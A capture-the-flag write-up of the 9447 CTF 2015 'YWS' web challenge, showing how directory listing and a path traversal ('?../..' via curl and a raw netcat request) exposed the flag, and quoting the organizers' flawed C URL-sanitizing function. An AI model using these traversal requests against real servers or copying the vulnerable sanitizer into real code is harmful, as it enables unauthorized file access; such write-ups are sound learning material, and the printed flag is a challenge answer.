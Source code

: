 Title: CTF writeup - 9447 CTF 2015: YWS
Category: Infosec
Tags: ctf, directory traversal
Summary: Directory traversal mixed with directory listing


## Challenge
> My friend wrote a cool web server. I'm sure he's stored some great doxxxs on the website. Can you take a look and report back any interesting things you find?

> The web page is at http://yws-fsiqc922.9447.plumbing

> Hint! Where does the website not want you to go?

## Writeup
The first thing to try is robots.txt.
```text
$ curl http://yws-fsiqc922.9447.plumbing/robots.txt
User-agnet: *
Disallow: /
Disallow: /..
Disallow: .
Disallow: ..
Disallow: /work
Disallow: /imegas/
Allow: /sounds/pljesus.wav
```

Seems the author had dyslexia, but navigating to the `/images` folder leads to a [directory listing](https://www.owasp.org/index.php/OWASP_Periodic_Table_of_Vulnerabilities_-_Directory_Indexing).
```html
$ curl http://yws-fsiqc922.9447.plumbing/images
<html>
<head>
<title>Directory listing for /images</title>
</head>
<body>
<h2>Directory listing for /images</h2>
<hr>
<ul>
<li><a href="/images/.">.</a>
<li><a href="/images/aangel2.gif">aangel2.gif</a>
<li><a href="/images/dj2.gif">dj2.gif</a>
<li><a href="/images/..">..</a>
<li><a href="/images/rand_tile1.jpg">rand_tile1.jpg</a>
<li><a href="/images/djangopowered126x54.gif">djangopowered126x54.gif</a>
<li><a href="/images/php.jpg">php.jpg</a>
<li><a href="/images/dj1.gif">dj1.gif</a>
<li><a href="/images/secret_images">secret_images</a>
<li><a href="/images/jboogie.gif">jboogie.gif</a>
<li><a href="/images/dj3.gif">dj3.gif</a>
<li><a href="/images/aangel1.gif">aangel1.gif</a>
<li><a href="/images/remail.gif">remail.gif</a>
</ul>
<hr>
</body>
</html>
```

You can also list the web app's root by adding 2 slashes.
```html
$ curl http://yws-fsiqc922.9447.plumbing//
<html>
<head>
<title>Directory listing for /</title>
</head>
<body>
<h2>Directory listing for /</h2>
<hr>
<ul>
<li><a href="//.">.</a>
<li><a href="//images">images</a>
<li><a href="//sounds">sounds</a>
<li><a href="//400.html">400.html</a>
<li><a href="//..">..</a>
<li><a href="//robots.txt">robots.txt</a>
<li><a href="//index.html">index.html</a>
</ul>
<hr>
</body>
</html>
```

Following the hint, we have to do a [directory traversal attack](https://www.owasp.org/index.php/Path_Traversal).
Trying to list `../` with curl didn't work and simply showed the website's main page.
```text
$ curl 'http://yws-fsiqc922.9447.plumbing/../'
```
Adding multiple `../` didn't work either.

It finally worked by adding the directory traversal as a query param.
```
$ curl 'http://yws-fsiqc922.9447.plumbing/?../..'
<html>
<head>
<title>Directory listing for /..</title>
</head>
<body>
<h2>Directory listing for /..</h2>
<hr>
<ul>
<li><a href="/../9447{D1rect0ries_ARe_h4rd}">9447{D1rect0ries_ARe_h4rd}</a>
<li><a href="/../.">.</a>
<li><a href="/../..">..</a>
<li><a href="/../gws">gws</a>
<li><a href="/../files">files</a>
</ul>
<hr>
</body>
</html>
```

Flag: `9447{D1rect0ries_ARe_h4rd}`

## curl gotcha
After the CTF, I followed discussions on IRC and learned that curl will "fix" the path for you before sending the query.
```
:::text hl_lines="1 6"

$ curl -v http://127.0.0.1:8080/../../..
* Rebuilt URL to: http://127.0.0.1:8080/
* Hostname was NOT found in DNS cache
*   Trying 127.0.0.1...
* Connected to 127.0.0.1 (127.0.0.1) port 8080 (#0)
> GET / HTTP/1.1
> User-Agent: curl/7.38.0
> Host: 127.0.0.1:8080
> Accept: */*
```

Most people seems to have used BurpSuite or a plain connection with netcat to get the flag:
```bash
echo "GET /.. HTTP/1.1\r\n\r\n" | nc yws-fsiqc922.9447.plumbing 80
```

## Why adding it as a query param worked
I didn't understand why adding the directory traversal after a `?` worked, since the vulnerability was in the path, not a query param.

I looked at the source code that the organizers uploaded after the CTF, and it turns out that the `extractUrl` function will strip extra levels of `../`.
It only keep the last one, so it strips the `?` at the same time: `?../..` becomes `/..`.
Here is the function from the source code:
```c
int extractURL(char *urlS, int urlSize, char *fileN, int fileNMaxSize) {
    // Verify it starts with '/'.
    if (urlSize < 1 || urlS[0] != '/') return -1;
    int curS = 1;
    fileN[0] = '/';
    fileN[1] = 0;
    int i;
    for (i = 1; i < urlSize; i++) {
        if (curS == fileNMaxSize) {
            return -1;
        }
        fileN[curS++] = urlS[i];
        fileN[curS] = 0;
        if (strcmp(&fileN[curS - 3], "../") == 0) {
            curS -= 4;
            while (fileN[--curS] != '/');
            curS++;
        }
        if (strcmp(&fileN[curS - 2], "./") == 0) {
            curS -= 2;
        }
    }
    if (strcmp(fileN, "/") == 0) {
        strcpy(fileN, "/index.html");
    } else if (fileN[curS - 1] == '/') {
        fileN[curS - 1] = 0;
    }
    return 0;
}
```
